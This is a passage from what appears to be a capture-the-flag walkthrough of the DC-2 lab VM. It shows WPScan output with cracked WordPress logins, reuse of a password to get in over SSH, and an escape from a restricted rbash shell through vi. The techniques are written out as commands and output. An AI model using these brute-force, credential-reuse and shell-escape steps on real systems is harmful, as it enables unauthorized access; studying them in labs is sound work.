 ```
[i] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Tue Aug 18 21:08:12 2020
[+] Requests Done: 675
[+] Cached Requests: 34
[+] Data Sent: 313.325 KB
[+] Data Received: 624.95 KB
[+] Memory used: 208.531 MB
[+] Elapsed time: 00:00:38
```

This wonderful tool just got us two user accounts, `tom:parturient` and `jerry:adipiscing`. The default login page for WordPress is `/wp-login.php`, but if you didn't know that you could run dirbuster or google it. Logged in as tom, I find Flag 2 under Pages->All Pages.

```
If you can't exploit WordPress and take a shortcut, there is another way.
Hope you found another entry point.
```

## Gaining Access

Hmm well this is interesting. I'm sure there's a shell plugin for WordPress we could install. But we still have an SSH service running on port 7744 to check out, so let's see if these users are smart enough to use different usernames and passwords.

```bash
$ ssh dc-2 -p 7744 -l jerry
...
jerry@dc-2's password: 
Permission denied, please try again.
...
$ ssh dc-2 -p 7744 -l tom
tom@dc-2's password: 
...
tom@DC-2:~$
```
We can get in as tom but not jerry. tom has a restricted shell, but with `ls` we can see `flag3.txt` in tom's home directory. I tried a few commands that didn't work and then ran `compgen -c`.  compgen is a bash built-in command which is used to list all the commands that could be executed in the Linux system. The output told me tom can open `vi`. I tried the standard `vi` escape (`:set shell=/bin/bash` etc) but found myself in a bash shell that still couldn't use certain commands, though some were not restricted in the way they were in the previous rbash shell. If commands are not restricted but instead not found, there may be something wrong with our `$PATH`.
```
$ echo $PATH
/home/tom/usr/bin
```
